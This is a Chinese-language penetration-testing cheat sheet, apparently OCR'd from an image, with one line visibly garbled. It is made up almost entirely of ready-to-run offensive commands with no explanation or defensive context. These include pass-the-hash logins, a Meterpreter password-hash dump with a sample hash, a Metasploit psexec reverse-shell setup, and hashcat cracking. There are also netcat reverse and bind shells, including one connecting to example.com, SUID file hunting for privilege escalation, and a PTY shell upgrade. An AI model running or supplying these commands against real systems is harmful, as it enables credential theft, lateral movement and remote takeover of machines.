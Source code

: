 git clone https://github.com/byt3bl33d3r/pth-toolkit
pth-winexe -U hash //IP cmd
或者
apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP
在或者
meterpreter > run post/windows/gather/hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
meterpreter > shell
使用 Hashcat 破解密码
hashcat -m 400 -a 0 hash /root/rockyou.txt
使用 NC 抓取 Banner 信息
nc 192.168.0.10 80
GET / HTTP/1.1
Host: 192.168.0.10
User-Agent: Mozilla/4.0
Referrer: www.example.com
<enter>
<enter>
使用 NC 在 Windows 上反弹 shell
c:>nc -Lp 31337 -vv -e cmd.exe
nc 192.168.0.10 31337
c:>nc example.com 80 -e cmd.exe
nc -lp 80
nc -lp 31337 -e /bin/bash
nc 192.168.0.10 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000
查找 SUID\SGID root 文件
# 查找 SUID root 文件
find / -user root -perm -4000 -print
# 查找 SGID root 文件:
find / -group root -perm -2000 -print
# 查找 SUID 和 SGID 文件:
find / -perm -4000 -o -perm -2000 -print
# 查找不属于任何用户的文件:
find / -nouser -print
# 查找不属于任何用户组的文件:
find / -nogroup -print
# 查找软连接及其指向:
find / -type l -ls
Python shell
python -c 'import pty;pty.spawn("/bin/bash")'
Python\Ruby\PHP HTTP 服务器
python2 -m SimpleHTTPServer
python3 -m http.server
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, 
ocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:8888
获取进程对应的 PID
fuser -nv tcp 80